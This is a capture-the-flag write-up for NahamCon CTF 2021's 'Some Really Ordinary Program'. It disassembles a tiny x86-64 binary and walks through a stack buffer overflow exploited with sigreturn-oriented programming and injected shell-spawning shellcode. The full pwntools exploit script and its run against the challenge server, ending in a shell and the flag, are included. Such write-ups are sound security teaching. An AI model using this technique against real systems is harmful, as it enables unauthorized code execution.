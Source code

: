 # NahamCon CTF 2021

## Some Really Ordinary Program [medium]

> Author: @M_alpha#3534
>
> I'm starting to get pretty good at this whole programming thing. Here's a basic program I wrote that will echo back what you say. 
>
> [some-really-ordinary-program](some-really-ordinary-program)

Tags: _pwn_ _x86-64_ _bof_ _srop_


## Summary

_Some Really Ordinary Program_ isn't an overstatement, this is the 3rd _and 4th_ time I've solve this same problem in 2021.  The _and 4th_ comes from this problem being nearly identical to a similar problem from another CTF that ran at the same time as this CTF.  I'm not complaining, just reporting.

Anyway, the short of it is, we have nearly nothing to work with but a `read` and `syscall` gadget; using the return value from `read` we can use that to set `rax` so that we can use _srop_.

These 3rd and 4th iterations of this problem in 2021 have up'd the game a bit requiring stack relocating to a known location for some easy shellcode injection.

### Update

Apparently 2 _srops_ was the intended solution; from Discord (post CTF):

> M_alpha: Sorry to everyone who asked if the bss was rwx on Some Really Ordinary Program I didn't know what kernel version GCP was running it was intended to just use SROP to pivot the stack to the bss and SROP again to get a shell

I guess this write-up is an _unintended_ solution.  I created [exploit2.py](exploit2.py) after the CTF to illustrate the intended solution.

## Analysis

### Checksec

```
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

No mitigations, choose your own adventure--_assuming you can find the bits you need._

### <strike>Decompile with Ghidra</strike> Disassemble with `objdump`

```assembly
  401000:	48 89 f2             	mov    rdx,rsi
  401003:	48 89 fe             	mov    rsi,rdi
  401006:	b8 00 00 00 00       	mov    eax,0x0
  40100b:	48 89 c7             	mov    rdi,rax
  40100e:	0f 05                	syscall
  401010:	c3                   	ret
  401011:	48 89 f2             	mov    rdx,rsi
  401014:	48 89 fe             	mov    rsi,rdi
  401017:	b8 01 00 00 00       	mov    eax,0x1
  40101c:	48 89 c7             	mov    rdi,rax
  40101f:	0f 05                	syscall
  401021:	c3                   	ret
  401022:	55                   	push   rbp
  401023:	48 89 e5             	mov    rbp,rsp
  401026:	48 81 ec f4 01 00 00 	sub    rsp,0x1f4
  40102d:	48 bf 00 20 40 00 00 	movabs rdi,0x402000
  401034:	00 00 00
  401037:	be 1f 00 00 00       	mov    esi,0x1f
  40103c:	e8 d0 ff ff ff       	call   0x401011
  401041:	48 8d 3c 24          	lea    rdi,[rsp]
  401045:	be 20 03 00 00       	mov    esi,0x320
  40104a:	e8 b1 ff ff ff       	call   0x401000
  40104f:	48 8d 3c 24          	lea    rdi,[rsp]
  401053:	48 89 c6             	mov    rsi,rax
  401056:	e8 b6 ff ff ff       	call   0x401011
  40105b:	c9                   	leave
  40105c:	c3                   	ret
  40105d:	e8 c0 ff ff ff       	call   0x401022
  401062:	eb f9                	jmp    0x40105d
```

Yep, that's all of it.

Loading this up in GDB and running with `starti` you can quickly see that `main` is at `0x401022`, and that functions `0x401000` and `0x41011` are simple fronts to `read` and `write`.

Starting from `main` (`0x401022`), `0x1f4` bytes of stack is allocated, then a string pointer (`0x402000`) and its length are _moved_ into `rdi` and `esi`, then `write` (`0x401011`) is called.  This emits to your terminal: `What you say is what you get.\n`.  Next `read` (`0x401000`) is called with parameters _stack_ and `0x320` for the location and length.  

Well there's your problem.  The stack was allocated for `0x1f4` and `read` is instructed to read up to `0x320` bytes creating a _bof_ vulnerability.

The next set of lines just emit to your terminal whatever you inputted, then we start all over again by calling `main`.  

> I guess I may have _jumped_ ahead of myself, the entry point is actually at the bottom at `0x40105d`, this calls `main`, than then jumps back to calling `main` in a loop.

That's all there is folks.  Not a lot here.  No GOT, very few gadgets, no libc, etc..., total _srop_ fodder.

```
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x some-really-ordinary-program
0x0000000000401000 0x0000000000402000 0x0000000000001000 r-x some-really-ordinary-program
0x0000000000402000 0x0000000000403000 0x0000000000002000 rwx some-really-ordinary-program
0x00007ffff7ffa000 0x00007ffff7ffd000 0x0000000000000000 r-- [vvar]
0x00007ffff7ffd000 0x00007ffff7fff000 0x0000000000000000 r-x [vdso]
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rwx [stack]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]
```

Before getting into the _srop_ details, lets look at the memory map.  Other than the stack, there is a 4K page of memory that is also `RWX` at `0x402000`.  This is something we both have and _know_.

The attack is pretty simple, use `read` to _read_ in `0xf` bytes, so that `rax` is `0xf` (rt_sigreturn syscall).  Then call `syscall` followed by our sigreturn frame.

That frame will change `rsp` to the end of page `0x402000` (remember stacks grow _down_ in address space), and then set `rip` to `main`.  This will basically start us all over again, but this time we know the stack address because we _set_ it.

Since we can _read_ and we know _where_ we will be storing that input, we can just send some shellcode to do the rest.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./some-really-ordinary-program')
binary.symbols['main'] = 0x401022
binary.symbols['midread'] = 0x401006

if args.REMOTE:
    p = remote('challenge.nahamcon.com', 31225)
else:
    p = process(binary.path)
```

Standard pwntools header with some symbols added for `main` and `midread`.

> `midread` is the midpoint of the `read` frontend function described above.  Since all the registers are correct except for `rax` and `rdi`, it was only necessary to get the tail end of that function.

```python
syscall = next(binary.search(asm('syscall')))
stack = 0x402ff8

frame = SigreturnFrame()
frame.rsp = stack
frame.rip = binary.sym.main
```

Find a syscall gadget and setup the location of our new stack at the end of page `0x402000`, then define our rt_sigreturn frame with `rsp` pointing to our new stack and `rip` pointing to `main`


```python
# overflow buffer
# get control of RIP
# call the read function to get 0xf in rax for syscall
# sigret
payload  = b''
payload += (0x1f4 + 8) * b'A'
payload += p64(binary.sym.midread)
payload += p64(syscall)
payload += bytes(frame)

p.sendafter('.\n',payload)
```

The payload just needs to fill up the `0x1f4` byte buffer plus 8 bytes for the `push rbp`, then call `midread` followed by `syscall` and our frame.

```python
# with read called, get 0xf in rax
p.send(constants.SYS_rt_sigreturn * b'A')
```

With the payload now running we need to send `0xf` bytes so that `read` will return with `0xf` in `rax`.  After that the rt_sigreturn syscall will kick in and update all the registers with values from our frame, including the new stack (`rsp`) and where we should start executing again (`rip`).

```python
# new stack that we know address of and its NX
# just put in some shell code and call it
payload  = b''
payload += asm(shellcraft.sh())
payload += (0x1f4 + 8 - len(payload)) * b'A'
payload += p64(stack - 0x1f4 - 8)

p.sendafter('.\n',payload)

# take out the garbage
p.recvuntil(p64(stack - 0x1f4 - 8))
p.interactive()
```

Here we are again, at the beginning, all that has changed is we _know_ where the stack is.  This time we inject some shellcode, pad, and then replace the return address with the location of our shellcode.

The _take out the garbage_ just receives back our payload from the `write` that `main` calls after the `read` to prettify our output for this writeup.

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/nahamconctf2021/ordprog/some-really-ordinary-program'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[+] Opening connection to challenge.nahamcon.com on port 31450: Done
[*] Switching to interactive mode
$ id
uid=1000(challenge) gid=1000 groups=1000
$ cat flag.txt
flag{175c051dbd3db6857f3e6d2907952c87}
```

